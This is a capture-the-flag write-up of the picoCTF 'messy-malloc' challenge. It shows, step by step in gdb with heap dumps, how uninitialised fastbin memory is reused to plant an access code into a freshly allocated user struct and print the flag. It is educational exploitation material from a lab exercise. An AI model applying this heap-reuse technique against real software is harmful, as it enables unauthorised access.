


# messy-malloc 300 points (pwn, pico, heap, unclear-memory)

Notes:
- source code given: yes
- binary given: yes

### Enumerations
This was my first heap-exploitation challenge. I've spend some time reading through tutorials before I've approached it.

The program itself allows user to perform some basic actions:



We can see that to obtain the flag we have to login as a user with a correct access code.

```c
void print_flag() { // simplified
  [...] // read flag

  unsigned long ac1 = ((unsigned long *)u->access_code)[0];
  unsigned long ac2 = ((unsigned long *)u->access_code)[1];
  if (ac1 != 0x4343415f544f4f52 || ac2 != 0x45444f435f535345) {
    fprintf(stdout, "Incorrect Access Code: \"");
    return;
  }
  
  puts(flag);
}
```

The user structure is defined as:

```c
struct user {
  char *username;
  char access_code[ACCESS_CODE_LEN];
  char *files; // unused
};
```

So my first idea was to look for every place where the `access_code` is set.
But here comes the surprice! There is no such place in the code! Moreover I couldn't spot any vulnerabilities like buffer overflow etc. Challenge name clearly indicates to look for malloc connected vulnerability. And I've found it. When we call malloc, the memory is not initialized:



This means that when we call malloc, the returned memory is not initialized to zeros. It can contain data from previous usage. Amazing! Now we just have to find a way to fill part of memory with correct access code and later on find a way to allocate a `struct user` on this part of memory.

When we look at the commands which we can invoke, we see that:

```c
int login() { // simplified
  u = malloc(sizeof(struct user));

  int username_len;
  puts("Please enter the length of your username");
  scanf("%d", &username_len);

  char *username = malloc(username_len+1);
  u->username = username;

  puts("Please enter your username");
  fgets(username, username_len, stdin);
  [...]
}
```

that `login` function allocates space for both `struct user` and for `username`,

```c
int logout() {
  char *user = u->username;
  if (u == &anon_user) {
    return -1;
  }
  else {
    free(u);
    free(user);
    u = &anon_user;
  }
  return 0;
}
```

while `logout` function frees the above allocated memory.

### Exploit
As an attacker we don't control the fields of `struct user`, but we do control the `username`. So attack is quite simple. Let's first allocate memory for `username` and place correct access code within it. Secondly free that memory, so it get's back to free memory pool and finaly allocate a new `struct user` in the same place so the access_code field is initialized with `ROOT_ACCESS_CODE`.

As ` struct user` is 32 byte size the malloc uses `fastbins 32 byte` for it, so we need to make our `username` same size.

Let's see our exploit under `gdb`. 

```bash
gdb -q auth
```

We will start with setting breakpoint at `fgets` command which asks for command.

```gdb
gdb-peda$ pd main
[...]
  0x0000000000400d38 <+209>:	mov    esi,0x100
  0x0000000000400d3d <+214>:	call   0x400860 <fgets@plt>
  0x0000000000400d42 <+219>:	test   rax,rax
[...]
End of assembler dump.
gdb-peda$ b *0x0000000000400d3d
Breakpoint 2 at 0x400d3d: file /usr/include/x86_64-linux-gnu/bits/stdio2.h, line 262.
gdb-peda$ c
Continuing.
Commands:
	login - login as a user
	print-flag - print the flag
	logout - log out
	quit - exit the program

Enter your command:
[anon]>
```

Now let's allocate and fill with our access_code the memory using `login` function.
As username length we pass 31 as login function allocates one more byte for null byte. When asked for username we prefix our access_code with 8 bytes of junk. This is because this 8 bytes will be a pointer to username.
```gdb
gdb-peda$ c
Continuing.
login
Please enter the length of your username
31
Please enter your username
AAAAAAAAROOT_ACCESS_CODE
```

Now let's take a look at a heap memory layout.

```gdb
gdb-peda$ vmmap 
[...]
0x00603000         0x00624000         rw-p	[heap]
[...]
gdb-peda$ x/256gx 0x00603000
[...]
0x603660:	0x0000000000000000	0x0000000000000031
0x603670:	0x00000000006036a0	0x0000000000000000
0x603680:	0x0000000000000000	0x0000000000000000
0x603690:	0x0000000000000000	0x0000000000000031
0x6036a0:	0x4141414141414141	0x4343415f544f4f52
0x6036b0:	0x45444f435f535345	0x0000000000000000
0x6036c0:	0x0000000000000000	0x0000000000020941
0x6036d0:	0x0000000000000000	0x0000000000000000
[...]
```

We can see that [0x603660 - 0x60368f] chunk contains the `struct user` allocated by login function. Block 0x00000000006036a0 is a `char *username` field of this struct pointing to [0x6036a0-0x6036bf] username chunk.

Now let's free that memory so we can later allocate new user in place of username.

```gdb
gdb-peda$ c
logout
gdb-peda$ x/256gx 0x00603000
[...]
0x603660:	0x0000000000000000	0x0000000000000031
0x603670:	0x0000000000000000	0x0000000000000000
0x603680:	0x0000000000000000	0x0000000000000000
0x603690:	0x0000000000000000	0x0000000000000031
0x6036a0:	0x0000000000603670	0x4343415f544f4f52
0x6036b0:	0x45444f435f535345	0x0000000000000000
0x6036c0:	0x0000000000000000	0x0000000000020941
[...]
```

Note that not much has changed. The memory hasn't been zerod as we expected even though it is now marked as free. We can tell this by observing that
[0x603670-0x603678] now instead of pointer to username contains 0x0000000000000000. This is because when fastbin chunk is unallocated it has `struct malloc_chunk* fd;` poiting to next free chunk. As [0x603660-0x60367f] is a head of a free fastbin 32byte chunk list, the `fd` points to NULL.
The [0x6036a0-0x6036a8] points to 0x0000000000603670 and is a tail of fastbin 32byte chunk list.

Now let's login as a new user and examine the heap.

```gdb
gdb-peda$ c
Continuing.
login
Please enter the length of your username
31
Please enter your username
BBBBBBBBBBBBBBBBBBBBBBBB
gdb-peda$ x/256gx 0x00603000
[...]
0x603660:	0x0000000000000000	0x0000000000000031
0x603670:	0x4242424242424242	0x4242424242424242
0x603680:	0x4242424242424242	0x0000000000000000
0x603690:	0x0000000000000000	0x0000000000000031
0x6036a0:	0x0000000000603670	0x4343415f544f4f52
0x6036b0:	0x45444f435f535345	0x0000000000000000
0x6036c0:	0x0000000000000000	0x0000000000020941
[...]
```

Can you see how the new `struct user` has been allocated in place of previous `username`?
If not, then use this useful trick (the program might has to be compiled with -g flag):

```gdb
gdb-peda$ set $u=(struct user*) 0x6036a0
gdb-peda$ p *$u
$3 = {
  username = 0x603670 'B' <repeats 24 times>, 
  access_code = "ROOT_ACCESS_CODE", 
  files = 0x0
}
```

Now all we have to do is to call a print-flag function:

```gdb
gdb-peda$ c
Continuing.
print-flag
picoCTF{XXXXXXXXXXXXXXXXX}
```

